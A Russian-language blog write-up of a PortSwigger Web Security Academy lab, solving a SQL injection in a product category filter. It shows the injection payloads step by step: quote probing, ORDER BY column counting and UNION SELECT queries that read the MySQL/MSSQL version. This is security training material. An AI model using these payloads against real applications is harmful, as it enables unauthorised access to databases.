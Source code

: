 ```yaml
---
title: "SQL injection attack, querying the database type and version on MySQL and Microsoft"
date: 2025-06-06
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-examining-the-database-in-sql-injection-attacks/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft"
classes: wide
---
```


В данной лабе есть уязвимый к **SQL injection** фильтр категории. Для прохождения лабы нужно отобразить версию БД.

```
https://0adb000a047d20be81e7ac8b00de000c.web-security-academy.net/
```

## Solution

Возьму `URL` с фильтром категоий `Pets` :

```
https://0adb000a047d20be81e7ac8b00de000c.web-security-academy.net/filter?category=Pets
```

Подберу обрамление параметра. Попробую следующий пейлоад:

```
Pets' and 1=0-- -
```


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_querying_the_database_type_and_version_on_MySQL_and_Microsoft/1.png){: height="200" .align-center}


Никакой ошибки и пустой вывод. Скорее всего обрамление `'`. 


Узнаю сколько колонок используется в запросе с помощью `ORDER BY`:

```
Pets' ORDER BY 3-- -Error
Pets' ORDER BY 2-- -OK
```

Значит используется 2 колонки. 


Попробую использовать разные варианты для отображения версии БД с помощью `UNION`:

```
Pets' and 1=0 UNION SELECT 'version', version()-- -Ok
Pets' and 1=0 UNION SELECT 'version', @@version-- -Ok
```


![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_sqli/IMG_SQL_injection_attack_querying_the_database_type_and_version_on_MySQL_and_Microsoft/2.png){: height="200" .align-center}


Лаба пройдена:3 ☕ 